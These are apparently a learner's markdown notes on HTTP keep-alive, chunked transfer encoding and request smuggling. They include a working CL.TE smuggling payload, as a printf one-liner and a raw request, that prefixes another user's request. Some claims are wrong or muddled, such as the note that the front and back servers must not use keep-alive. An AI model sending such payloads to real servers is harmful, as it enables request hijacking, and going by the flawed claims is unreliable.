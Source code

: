 # Basic
- HTTP header `Connection: Keep-Alive`: Tells the server do not close the TCP connection after receiving HTTP request.
- Pipeline: The client can send multiple HTTP requests without waiting for the responses. The server follows **first-in first-out** mechanism
- HTTP header `Transfer-Encoding`: Secure transmission (No data loss) of binary data.
  - `chunked`, `compress`, `deflate`, `gzip`, `identity`
##### Chunked Transfer encoding
- The chunked transfer encoding wraps the payload body in order to transfer it as a series of chunks:
  ```
  POST /xxx HTTP/1.1
  Host: xxx
  Content-Type: text/plain
  Content-length: 20

  Wikipedia in chunks.
  ```
  ```
  POST /xxx HTTP/1.1
  Host: xxx
  Content-Type: text/plain
  Transfer-Encoding: chunked

  4\r\n
  Wiki\r\n
  5\r\n
  pedia\r\n
  b\r\n
  in chunks.\r\n
  0\r\n
  \r\n
  ```
##### HTTP Smuggling Attack
- Using the difference in HTTP message parsing between front and backend server to embed another HTTP request in a normal HTTP request to smuggle (قاچاق) it.
  - For this attack, there should be a front server and a backend server. 
  - The connection between front and backend server is not using pipelining and `keep-alive`.
  - In this attack, we can add a prefix to somepne else's request.
  ```html
  printf 'POST / HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 60\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n0\r\n\r\nGET /404 HTTP/1.1\r\nhost: localhost\r\nDummy: header'

  POST / HTTP/1.1
  Host: localhost
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 60
  Transfer-Encoding: chunked

  1
  Z
  0

  GET /404 HTTP/1.1
  host: localhost
  Dummy: header
  ```
